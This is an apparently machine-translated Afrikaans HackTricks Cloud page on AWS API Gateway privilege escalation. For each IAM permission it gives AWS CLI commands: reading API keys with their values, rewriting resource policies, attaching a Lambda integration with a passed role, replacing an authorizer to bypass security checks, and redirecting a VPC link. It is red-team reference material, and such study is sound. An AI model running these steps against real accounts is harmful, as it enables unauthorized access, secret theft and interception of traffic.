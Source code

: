 # AWS - Apigateway Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Vir meer inligting, kyk:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Met hierdie toestemming kan jy API sleutels van die geconfigureerde API's genereer (per streek).
```bash
aws --region <region> apigateway create-api-key
```
**Potensiële Impak:** Jy kan nie privesc met hierdie tegniek nie, maar jy mag toegang kry tot sensitiewe inligting.

### `apigateway:GET`

Met hierdie toestemming kan jy gegenereerde API-sleutels van die geconfigureerde API's verkry (per streek).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Potensiële Impak:** Jy kan nie privesc met hierdie tegniek nie, maar jy mag toegang tot sensitiewe inligting kry.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Met hierdie toestemmings is dit moontlik om die hulpbronbeleid van 'n API te wysig om jouself toegang te gee om dit aan te roep en die potensiële toegang wat die API-gateway mag hê, te misbruik (soos om 'n kwesbare lambda aan te roep).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Potensiële Impak:** Jy sal gewoonlik nie direk met hierdie tegniek kan privesc nie, maar jy mag toegang tot sensitiewe inligting kry.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Benodig toetsing
{% endhint %}

'n Aanvaller met die toestemmings `apigateway:PutIntegration`, `apigateway:CreateDeployment`, en `iam:PassRole` kan **'n nuwe integrasie by 'n bestaande API Gateway REST API met 'n Lambda-funksie wat 'n IAM-rol aangeheg het, voeg**. Die aanvaller kan dan **die Lambda-funksie aktiveer om arbitrêre kode uit te voer en moontlik toegang tot die hulpbronne wat met die IAM-rol geassosieer is, te verkry**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potensiële Impak**: Toegang tot hulpbronne geassosieer met die Lambda-funksie se IAM-rol.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Benodig toetsing
{% endhint %}

'n Aanvaller met die regte `apigateway:UpdateAuthorizer` en `apigateway:CreateDeployment` kan **'n bestaande API Gateway-outeur** wysig om sekuriteitskontroles te omseil of om arbitrêre kode uit te voer wanneer API-versoeke gemaak word.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potensiële Impak**: Omseiling van sekuriteitskontroles, ongeoorloofde toegang tot API-hulpbronne.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Benodig toetsing
{% endhint %}

'n Aanvaller met die toestemming `apigateway:UpdateVpcLink` kan **'n bestaande VPC-koppeling wysig om na 'n ander Netwerk Laai Balancer te verwys, wat moontlik private API-verkeer na ongeoorloofde of kwaadwillige hulpbronne kan herlei**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potensiële Impak**: Onbevoegde toegang tot private API-hulpbronne, onderskepping of onderbreking van API-verkeer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
